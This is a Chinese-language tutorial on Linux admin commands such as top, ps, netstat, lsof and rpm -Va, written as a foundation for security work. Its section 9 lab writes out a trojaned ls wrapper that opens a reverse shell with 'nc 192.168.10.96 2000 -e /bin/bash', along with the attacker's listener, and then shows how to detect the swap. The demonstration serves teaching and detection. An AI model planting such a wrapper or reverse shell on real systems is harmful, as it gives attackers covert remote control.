

# 101-A9-Linux基础命令（2）

---

在本节中，我们将学习Linux系统管理命令。这部分知识是后续信息安全渗透与防御的重要基础。本节实验环境为centos。

## 1. top 命令

`top`可以实时动态地查看系统的整体运行情况，是一个综合了多方信息监测系统性能和运行信息的实用工具。通过top命令所提供的互动式界面，用热键可以管理。

案例：

```bash
top
```


第1行：`top - 19:31:16 up 21:10,  2 users,  load average: 0.00, 0.00, 0.00`

| 内容                           | 含义                                                         |
| ------------------------------ | ------------------------------------------------------------ |
| 19:31:16                       | 表示当前时间                                                 |
| up  21:10                      | 系统运行时间 格式为时：分                                    |
| 2 users                        | 当前登录用户数                                               |
| load average: 0.00, 0.00, 0.00 | 系统负载，即任务队列的平均长度。 三个数值分别为 1分钟、5分钟、15分钟前到现在的平均值。 |

第2行：`Tasks: 109 total,   1 running, 108 sleeping,   0 stopped,   0 zombie`

第3行：`%Cpu(s):  0.0 us,  0.0 sy,  0.0 ni, 99.7 id,  0.0 wa,  0.3 hi,  0.0 si,  0.0 st`

第2、3行为进程和CPU的信息 
当有多个CPU时，这些内容可能会超过两行，其参数如下：

| 内容         | 含义                                          |
| ------------ | --------------------------------------------- |
| 109 total    | 进程总数                                      |
| 1 running    | 正在运行的进程数                              |
| 108 sleeping | 睡眠的进程数                                  |
| 0 stopped    | 停止的进程数                                  |
| 0 zombie     | 僵尸进程数                                    |
| 0.0 us       | 用户空间占用CPU百分比                         |
| 0.0 sy       | 内核空间占用CPU百分比                         |
| 0.0 ni       | 用户进程空间内改变过优先级的进程占用CPU百分比 |
| 99.7 id      | 空闲CPU百分比                                 |
| 0.0 wa       | 等待输入输出的CPU时间百分比                   |
| 0.3 hi       | 硬中断（Hardware IRQ）占用CPU的百分比         |
| 0.0 si       | 软中断（Software Interrupts）占用CPU的百分比  |

​	 

第4行：`MiB Mem :   1775.3 total,   1369.3 free,    162.4 used,    243.6 buff/cache`
第5行：`MiB Swap:   1640.0 total,   1640.0 free,      0.0 used.   1466.1 avail Mem `

为内存信息

| 内容                  | 含义                                   |
| --------------------- | -------------------------------------- |
| KiB Mem:1775.3 tota   | 物理内存总量                           |
| 1369.3 free           | 空闲内存总量                           |
| 162.4 used            | 使用的物理内存总量                     |
| 243.6 buff/cache      | 用作内核缓存的内存量                   |
| MiB Swap:1640.0 total | 交换区总量                             |
| 1640.0 free           | 空闲交换区总量                         |
| 0.0 used              | 使用的交换区总量                       |
| 1466.1 avail Mem      | 代表可用于进程下一次分配的物理内存数量 |

第6行：    `PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND`            

为进程信息

| 列名    | 含义                                                         |
| ------- | ------------------------------------------------------------ |
| PID     | 进程id                                                       |
| USER    | 进程所有者的用户名                                           |
| PR      | 优先级                                                       |
| NI      | nice值。负值表示高优先级，正值表示低优先级                   |
| VIRT    | 进程使用的虚拟内存总量，单位kb。VIRT=SWAP+RES                |
| RES     | 进程使用的、未被换出的物理内存大小，单位kb。RES=CODE+DATA    |
| SHR     | 共享内存大小，单位kb                                         |
| S       | 进程状态。D=不可中断的睡眠状态 R=运行 S=睡眠 T=跟踪/停止 Z=僵尸进程 |
| %CPU    | 上次更新到现在的CPU时间占用百分比                            |
| %MEM    | 进程使用的物理内存百分比                                     |
| TIME+   | 进程使用的CPU时间总计，单位1/100秒                           |
| COMMAND | 命令名/命令行                                                |

## 2. w 命令

`w`命令用于显示已经登陆系统的用户列表，并显示用户正在执行的指令。
执行这个命令可得知目前登入系统的用户有那些人，以及他们正在执行的程序。单独执行w命令会显示所有的用户，您也可指定用户名称，仅显示某位用户的相关信息。
案例：

```bash
w
```


## 3. last 命令

`last`命令用于显示用户最近登录信息。单独执行last命令，它会读取/var/log/wtmp的文件，并把该给文件的内容记录的登入系统的用户名单全部显示出来。

用法：`last [选项]`

案例：

```bash
last 
last -5  #只显示5行
```


`/var/log/wtmp`文件

`wtmp`文件是二进制文件,该日志文件永久记录每个用户登录、注销及系统的启动、停机的事件。因此随着系统正常运行时间的增加，该文件的大小也会越来越大，增加的速度取决于系统用户登录的次数。该日志文件可以用来查看用户的登录记录，last命令就通过访问这个文件获得这些信息，并以反序从后向前。


## 4. ps 命令

`ps`命令是最基本同时也是非常强大的进程查看命令，使用该命令可以确定有哪些进程正在运行和运行的状态、进程是否结束。

用法：`ps [选项]`

参数：

+ -A 显示所有进程（同-e）
+ -a 显示当前终端的所有进程
+ -u 显示进程的用户信息
+ -o 以用户自定义形式显示进程信息
+ -f 显示程序间的关系
+ -x 显示所有程序，不以终端机来区分
+ -aux 显示所有包含其他使用者的行程

案例：

```bash
ps -aux|more
ps -aux|grep root|more
```


| USER       | PID    | %CPU       | %MEM       | VSZ                               | RSS                                               | TTY        | STAT     | START        | TIME       | COMMAND      |
| ---------- | ------ | ---------- | ---------- | --------------------------------- | ------------------------------------------------- | ---------- | -------- | ------------ | ---------- | ------------ |
| 行程拥有者 | 进程ID | CPU 使用率 | 内存使用率 | 进程使用的虚拟内存大小，以K为单位 | 驻留空间的大小。显示当前常驻内存的程序的K字节数。 | 终端的号码 | 进程状态 | 进程开始时间 | 执行的时间 | 所执行的指令 |

STAT进程状态包括下面的状态： 

+ D 不可中断 Uninterruptible sleep (usually IO) 
+ R 正在运行，或在队列中的进程 
+ S 处于休眠状态 T 停止或被追踪 
+ Z 僵尸进程 
+ W 进入内存交换（从内核2.6开始无效） 
+ X 死掉的进程 
+ < 高优先级 
+ N 低优先级 L 有些页被锁进内存 
+ s 包含子进程 
+ \+ 位于后台的进程组
+ l 多线程，克隆线程

## 5. netstat 命令

`netstat`命令用来打印Linux中网络系统的状态信息，可让你得知整个Linux系统的网络情况。

用法：`netstat [选项]`

参数：

+ -a或--all：显示所有连线中的Socket；
+ -l或--listening：显示监控中的服务器的Socket；
+ -n或--numeric：直接使用ip地址，而不通过域名服务器；
+ -t或--tcp：显示TCP传输协议的连线状况；
+ -p或--programs：显示正在使用Socket的程序识别码和程序名称；

案例：

```
netstat -an
netstat -anltp
```


| Proto | Recv-Q       | Send-Q       | Local Address | Foreign Address | State    | PID/Program name |
| ----- | ------------ | ------------ | ------------- | --------------- | -------- | ---------------- |
| 协议  | 网络接收队列 | 网路发送队列 | 本地地址      | 外部地址        | 端口状态 | 进程ID/程序名    |


协议：主要有tcp协议与udp协议， 网络协议是通信计算机双方必须共同遵从的一组约定。如怎么样建立连接、怎么样互相识别等。只有遵守这个约定，计算机之间才能相互通信交流。具体的内容，我们将会在之后的章节中介绍。


recv-Q 表示网络接收队列
表示收到的数据已经在本地接收缓冲，但是还有多少没有被进程取走。
如果接收队列Recv-Q一直处于阻塞状态，可能是遭受了拒绝服务 denial-of-service 攻击。


send-Q 表示网路发送队列

对方没有收到的数据或者说没有Ack的,还是本地缓冲区。
如果发送队列Send-Q不能很快的清零，可能是有应用向外发送数据包过快，或者是对方接收数据包不够快。


本地地址与外部地址，分别以本地IP+端口，外部IP+端口的形式表达。

+ IP地址是IP协议提供的一种统一的地址格式，目前，你只需知道它是由4组从0到255的数字组成，以0.0.0.0至255.255.255.255的形式表达的，可以表示计算机的网络位置（地址）的地址格式。更详细的内容我们将会在后续章节中介绍。
+ 端口(port)，可以认为是设备与外界通讯交流的出口。目前您只需理解，如果把IP地址比作一间房子，端口就是出入这间房子的门，计算机上的各类服务借由此“门”与外界通信。一个IP可以有65535（2^16^）个端口。在一个计算机上，每个服务都会启用一个端口。

state（当前端口状态）有以下几种状态：

| 端口状态     | 意义                                                |
| ------------ | --------------------------------------------------- |
| LISTEN       | 侦听来自远方的TCP端口的连接请求                     |
| SYN-SENT     | 再发送连接请求后等待匹配的连接请求                  |
| SYN-RECEIVED | 再收到和发送一个连接请求后等待对方对连接请求的确认  |
| ESTABLISHED  | 代表一个打开的连接                                  |
| FIN-WAIT-1   | 等待远程TCP连接中断请求，或先前的连接中断请求的确认 |
| FIN-WAIT-2   | 从远程TCP等待连接中断请求                           |
| CLOSE-WAIT   | 等待从本地用户发来的连接中断请求                    |
| CLOSING      | 等待远程TCP对连接中断的确认                         |
| LAST-ACK     | 等待原来的发向远程TCP的连接中断请求的确认           |
| TIME-WAIT    | 等待足够的时间以确保远程TCP接收到连接中断请求的确认 |
| CLOSED       | 没有任何连接状态                                    |

## 6. lsof 命令

`lsof`命令用于查看你进程开打的文件，打开文件的进程，进程打开的端口(TCP、UDP)。找回/恢复删除的文件。是十分方便的系统监视工具，因为lsof命令需要访问核心内存和各种文件，所以需要root用户执行。

在linux环境下，任何事物都以文件的形式存在，通过文件不仅仅可以访问常规数据，还可以访问网络连接和硬件。所以如传输控制协议 (TCP) 和用户数据报协议 (UDP) 套接字等，系统在后台都为该应用程序分配了一个文件描述符，无论这个文件的本质如何，该文件描述符为应用程序与基础操作系统之间的交互提供了通用接口。因为应用程序打开文件的描述符列表提供了大量关于这个应用程序本身的信息，因此通过lsof工具能够查看这个列表对系统监测以及排错将是很有帮助的。

### 6.1 lsof 命令使用

如果输入`lsof`命令提示：未找到命令。那么我们需要进行安装。安装命令为`yum -y install lsof`。

案例

```bash
lsof|more
```


| COMMAND    | PID TID TASKCMD | USER         | FD                                           | TYPE     | DEVICE         | SIZE/OFF   | NODE                           | NAME               |
| ---------- | --------------- | ------------ | -------------------------------------------- | -------- | -------------- | ---------- | ------------------------------ | ------------------ |
| 进程的名称 | 进程ID          | 进程所有用户 | 文件描述符，应用程序通过文件描述符识别该文件 | 文件类型 | 指定磁盘的名称 | 文件的大小 | 索引节点（文件在磁盘上的标识） | 打开文件的确切名称 |

案例：

```bash
lsof 1.txt           #查看哪些进程打开了1.txt文件
lsof -c sshd         #查看sshd服务所打开的文件
lsof -i :22          #查看22端口有哪些进程在访问
lsof -p 1168         #查看1168进程号所打开的文件
lsof -u 0            #查看uid为0的用户打开的文件
lsof|grep /var/log/  #查看/var/log/下的文件被哪些进程打开
```


### 6.2 利用 lsof 命令恢复已删除的文件

需要恢复已删除的文件前提条件是还有进程打开这个文件，比如遭到黑客入侵往往总是会删除一些日志、木马文件等，假设我们ssh的登录日志被删除了，我们使用`lsof`查看，可以看到最后面有（deleted）这个状态。

`lsof |grep /var/log/messages`这里pid对应的是699，所以我们需要查看699进程打开的文件描述。


`cd /proc/699/fd`

再使用`ll`查看就可以看到被删除对应的文件了，文件7对应的就是被删除的文件，将7里面的内容输入到被删除的目录文件就恢复了


`cp 7 /var/log`拷贝这个文件。


更改文件名。


## 7. kill 命令
`kill`命令用于结束进程。

用法：`kill [选项] pid`
案例：

```bash
kill -9 123456          #彻底杀死进程号为123456的进程
```


## 8. which 命令

which用于查找并显示给定命令的绝对路径，可以看到某个系统命令是否存在
用法：which [命令]
案例：

```bash
which cd
```


## 9.rpm -Va 检查文件完整性


这里我们设计一个实验，假设linux系统中有命令被黑客替换，我们应当如何处理。

在前文中我们已经介绍了linux系统万物皆文件的特性，这种特性就可能会导致某命令被黑客修改替换。

保证有nc命令

yum -y install nc

查找ls命令路径


ls原本的内容


新建ls文件

```
vi ls
cat ls
```

新ls命令内容：

```
#!/bin/bash
/opt/ls $*
nc 192.168.10.96 2000 -e /bin/bash >/dev/null 2>&1
```


将原本的ls文件移动到/opt目录中，并将新ls文件移动到/usr/bin下

```
chmod +x ls
mv /usr/bin/ls /opt
mv ls /usr/bin
cat /usr/bin/ls
```


攻击机启动监听

```
nc -lvp 2000
```

当受害者执行ls命令时会触发nc命令：


攻击机可以看到反弹回来的shell


可以看到`which`结果和`whereis`结果并无可疑


查找被修改的命令：

可以看到ls文件异常

```
rpm -Va
```



而后将ls文件重新替换就好


在防御篇章，会涉及到系统完整性检查工具`lynins`,`aide`,`tripwire`等防御工具，可以更方便的发现，查找被替换文件


​	rpm命令我们经常使用，但是这个”-V”参数我们却很少使用，今天碰巧遇到，这里坐下总结。rpm -V用来检查已安装rpm包的完整性。**所谓“完整性”，这里就是指安装rpm包产生的所有文件和原始rpm包中的信息是否一致**。如果完全一致，则不做任何输出，只有发现有不正确的文件时才会输出。rpm -V的输出格式如下：

​	**SM5DLUGT c** 

​	  其中每当发现一个不一致的文件就会有一行类似的输出，一下是每个字符的含义：

​	S：表示对应文件的大小（Size）不一致；

​	M：表示对于文件的mode不一致；

​	5：表示对应文件的MD5不一致；

​	D：表示文件的major和minor号不一致；

​	L：表示文件的符号连接内容不一致；

​	U：表示文件的owner不一致；

​	G：表示文件的group不一致；

​	T：表示文件的修改时间不一致；

​	c：只有文件是一个配置文件时才会有此标志，可以用这种方法快速定位rpm包的配置文件安装位置。（不是说只有文件不一致情况下才会显示吗？没错，但是配置文件通常会被修改，所以通常都会被检测出不一致）

​	file：检测出不一致的文件安装路径；

​	当然一般不可能一个文件的所有以上属性都不一致，所以检测通过的属性就会用一个“.”表示。

​	**l** **例1：**

​	.M5....T  /usr/X11R6/lib/X11/fonts/misc/fonts.dir

​	表示/usr/X11R6/lib/X11/fonts/misc/fonts.dir这个文件的mode被修改了，MD5也不一致，文件的修改时间也发生了改变。

​	**l** **例2：**

​	S.5....T c /etc/passwd

​	表示/etc/passwd的Size，MD5，modify time不一致，且这是一个配置文件；

​	**l** **例3：**

​	missing   /var/spool/at/spool

​	表示rpm包本来该生产/var/spool/at/spool文件，但却丢失了。


## 10. xargs 命令

`xargs`是给其他命令传递参数的一个过滤器，也是组合多个命令的一个工具。它擅长将标准输入数据转换成命令行参数，xargs能够处理管道或者stdin并将其转换成特定命令的命令参数。xargs也可以将单行或多行文本输入转换为其他格式，例如多行变单行，单行变多行。
xargs的默认命令是echo，空格是默认定界符。这意味着通过管道传递给xargs的输入将会包含换行和空白，不过通过xargs的处理，换行和空白将被空格取代。xargs是构建单行命令的重要组件之一。

案例：

```bash
cat 111 |xargs -n 3 #将内容进行排序，每行三个字段
```


```bash
ls * |xargs -n1 cat                            #将前面的结果传递作为子参数传递给后面的命令
cat 1.txt|xargs -n1 echo 'hello'               
```


`-P`参数可以使xargs参数同时执行多个线程，使执行时间变短。


